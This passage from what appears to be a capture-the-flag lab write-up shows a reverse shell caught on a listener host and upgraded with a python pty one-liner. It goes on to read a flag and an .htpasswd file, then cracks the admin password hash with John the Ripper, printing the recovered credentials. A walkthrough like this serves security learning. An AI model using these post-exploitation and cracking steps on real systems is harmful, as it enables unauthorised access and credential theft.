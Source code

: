 Now we have the interactive reverse shell
```
192.168.1.183: inverse host lookup failed: Unknown host
connect to [192.168.1.189] from (UNKNOWN) [192.168.1.183] 48926

python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@dmv:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Flag #1

```
www-data@dmv:/var/www/html/admin$ cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

### SysAdmin Account

Looking into `/var/www/html/admin` we found `.htaccess` and `.htpasswd` configuration files:
```
www-data@dmv:/var/www/html/admin$ cat .htaccess
AuthName "AdminArea"
AuthType Basic
AuthUserFile /var/www/html/admin/.htpasswd
Require valid-user

www-data@dmv:/var/www/html/admin$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

### Cracking SysAdmin Password Hash

The password hash was easyly cracked by John The Ripper
```
$ cat admin.hash 
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/

$ john -wordlist=/usr/share/wordlists/rockyou.txt admin.hash 

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jessie           (itsmeadmin)
1g 0:00:00:00 DONE (2021-01-23 20:33) 50.00g/s 28800p/s 28800c/s 28800C/s 123456..parola
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Credentials:
* User: **itsmeadmin**
* Pass: **jessie**
